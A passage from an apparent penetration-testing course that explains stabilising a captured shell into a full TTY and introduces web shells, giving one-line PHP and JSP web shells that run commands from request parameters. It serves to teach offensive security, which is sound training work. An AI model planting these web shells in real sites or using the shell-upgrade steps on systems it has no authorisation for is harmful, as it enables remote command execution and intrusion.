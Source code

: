 After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:

```bash
www-data@remotehost$ ^Z

OathBornX@htb[/htb]$ stty raw -echo
OathBornX@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

At this point, we would have a fully working `TTY shell` with `command history` and normal interactivity.

However, we may notice that the `shell` does not cover the entire `terminal` window. To fix this, we need to configure the `rows` and `columns` of the `terminal` environment variables.

We do this by opening another `terminal` window on our own system, maximizing it (or setting it to whatever size we want), and running the following `commands` to get the values:

```bash
echo $TERM
stty size
```

```bash
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

---

# Web Shell

The final type of `shell` is a `Web Shell`. A `Web Shell` is typically a `web script` (for example, `PHP` or `ASPX`) that accepts our `commands` through `HTTP request parameters` such as `GET` or `POST`. The `Web Shell` then `executes` our `command` on the `remote host` and prints the `output` back on the `web page`.

#### Writing a Web Shell

First, we need to create a `Web Shell` that accepts our `command` via a `GET request`, executes it, and prints the `output` back to the `web page`.

A `Web Shell script` is typically a one-liner, short enough to memorize and quick to deploy. Here are some common one-liner `Web Shells` for widely used `web languages`:

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
